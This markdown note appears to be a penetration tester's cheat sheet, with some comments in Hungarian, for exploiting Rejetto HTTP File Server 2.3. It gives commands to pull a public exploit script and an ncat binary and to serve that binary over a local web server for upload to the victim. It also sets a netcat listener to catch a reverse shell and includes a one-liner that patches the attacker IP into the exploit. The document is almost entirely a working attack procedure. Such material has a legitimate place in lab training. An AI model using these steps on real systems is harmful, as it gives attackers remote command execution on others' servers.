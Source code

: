 # HFS HttpFileServer 2.3 (Rejetto)
## info
* source: https://systemweakness.com/manual-privilege-escalation-rejetto-http-file-server-windows-rce-1148a025c15a
## manual exploitation
* download ncat.exe from github (we need to host it on the attack machine and the exploit will upload it to the victim machine)
  * https://github.com/andrew-d/static-binaries/blob/master/binaries/windows/x86/ncat.exe
* get exploit code
  * $ searchsploit -m 39161.py
* $ nano 39161.py
  * change "ip_addr" to tun0
  * "localport" can be leaved at "443" or can be changed to arbitrary port (this will be the reverse shell port that nc will get connection on)
* $ mv ncat.exe nc.exe
  * rename netcat exe (in the exploit it is nc.exe, at github repo it is ncat.exe)
* $ python -m http.server 80
  * we need it so the exploit can upload the ncat.exe to the victim
  * if we want to change it we probably has to change the commands in the exploit as well (to the appropriate port that we gave to python)
* $ sudo nc -nvlp 443
  * ha 443-at akarunk hasznalni, akkor kell a 'sudo' mindenkepp ele!!!!!
  * ha masik portot akkor nem feltetlen (de akkor meg at kell irni azt az exploit-ban!!)
* $ python2.7 39161.py 10.10.10.2 80
  * ip and port of victim machine
  * python2.7-el mukodott csak (a tobbi python hibat dobott)
## manual exploitation semi-oneliner
<pre>
# netcat - download, give exec priv, rename
# exploit - download, give exec priv, get attack ip, change ip in exploit file
wget https://github.com/andrew-d/static-binaries/raw/master/binaries/windows/x86/ncat.exe; chmod 777 ncat.exe; mv ncat.exe nc.exe; searchsploit -m 39161.py; chmod +x 39161.py; IP=$(ip -f inet addr show tun0 | grep inet | awk '{print $2}' | cut -d '/' -f1); sed -i "s/192.168.44.128/$IP/g" 39161.py

# start python web server
$ sudo python3 -m http.server 80

# start netcat
$ sudo nc -nvlp 443

# start exploit 
$ python2 39161.py &lt;target_ip&gt; 80
</pre>
